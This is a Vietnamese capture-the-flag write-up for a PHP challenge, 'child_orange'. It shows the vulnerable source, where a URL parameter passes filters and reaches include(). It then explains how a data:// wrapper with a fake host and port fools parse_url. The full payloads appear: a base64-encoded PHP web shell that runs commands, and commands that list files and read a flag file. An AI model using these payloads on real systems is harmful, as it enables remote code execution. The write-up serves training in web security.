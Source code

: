 # [CTF] child_orange
## Solution
Source code:
```
<?php
  ini_set('open_basedir', '.');
  if(isset($_GET['url'])){
    $url = $_GET['url']; //.".txt";       I think i should make this challenge eaiser :)))
    if(!filter_var($url, FILTER_VALIDATE_URL)) exit("invalid url");
    if(!preg_match("/http:\/\/nhienit.kma:2010\//",$url)) exit("invalid server");
    if(preg_match("/@|#|\(|\)|\\$|`|'|\"|_|{|}|\?/",$url)) exit("you are not orange");
    if((parse_url($url)['host'] !== "nhienit.kma") || (parse_url($url)['port'] !== 2010)) exit("invalid host or port");
    if(parse_url($url)['user'] || parse_url($url)['pass']) exit("you are not orange");
    include $url;
  }
  else {
    highlight_file(__FILE__); 
    exit();
  }
  // Hint: Google is your friend!!!! XD
?>
```
Review qua source code nào:
param ``url`` ở đây được đối xử như 1 URL thật và nó phải pass qua 1 đống ``filter_var``, ``preg_match`` , ``parse_url`` , đến đây mình dự đoán nó có thể là RFI rồi. 

Theo hint của anh Nhiên thì lọ mọ đi search google thoy. sau khi search 1 hồi thì mình tìm thấy, 1 số report cũng như bài thuyết trình của ``orange tsai`` :-=)) Trong BlackHat nói về SSRF dẫn đến exploiting ``parse_url``. Nó có 1 số thủ thuật khá hay để abusing cái parse_url như là thêm @ để làm cái parse_url nhầm lẫn giữa ``host`` và ``user`` hoặc là CLRF  ( ``\r\n``),.. 

![img](./img/Screenshot%20from%202022-03-04%2022-55-29.png)

Reference:
- https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
- https://www.youtube.com/watch?v=voTHFdL9S2k&t=222s

Đến đây mình đã đinh ninh bài này nó là SSRF rồi RFI rùi nhưng mà khoan, các thủ thuật trên đều phải trigger vào giữa cái url, cái này nó không thỏa mãn được điều kiện ``if(!preg_match("/http:\/\/nhienit.kma:2010\//",$url))``.. soo how?

Thực ra còn 1 cách khác không liên quan đến cách trên đó chính là dùng ``php wrapper``, cụ thể mình dùng ``data://`` 
Reference: https://www.php.net/manual/en/wrappers.data.php . 

Mình đã test thử với filter ``if(!filter_var($url, FILTER_VALIDATE_URL)) exit("invalid url");`` và bằng cách thần kì nào đó nó coi wrapper là 1 validate url =)).

![img](./img/Screenshot%20from%202022-03-04%2023-05-19.png)

Cho nó vào parse_url() để var_dump nó ra xem như thế nào: 

![img](./img/Screenshot%20from%202022-03-04%2023-10-40.png)

hmm thế này là không thoả mãn đuợc ``if((parse_url($url)['host'] !== "nhienit.kma") || (parse_url($url)['port'] !== 2010)) exit("invalid host or port");``. Thử thêm text vào truớc scheme ``http`` để trigger xem sao. 

payload: 

``url="data://sometext/http:/nhienit.kma:2010//plain,test";``

![img](./img/Screenshot%20from%202022-03-04%2023-14-26.png)

Bingo, bằng cách này ta có thể abuse host và port của cái parse_url, payload của mình sẽ là:

``url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain,test;``

![img](./img/Screenshot%20from%202022-03-04%2023-18-19.png)

Đây là tiền đề để có thể thực hiện rce rồi, mình có thể ném script php lên (php wrapper sẽ execute code của mình) , cụ thể trong bài này ta phỉa encode script php theo dạng base64 vì ``php tag`` bị dính filter. script php: ``PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=`` (aka ``<?php system($_GET['cmd']);?>``)

payload: 
``?url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=ls -lsa``

![img](./img/Screenshot%20from%202022-03-04%2023-26-08.png)

nice, final payload:

``?url=data://nhienit.kma:2010/http://nhienit.kma:2010/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=cat ../../../flag``

flag: KCSC{flag_for_testing}
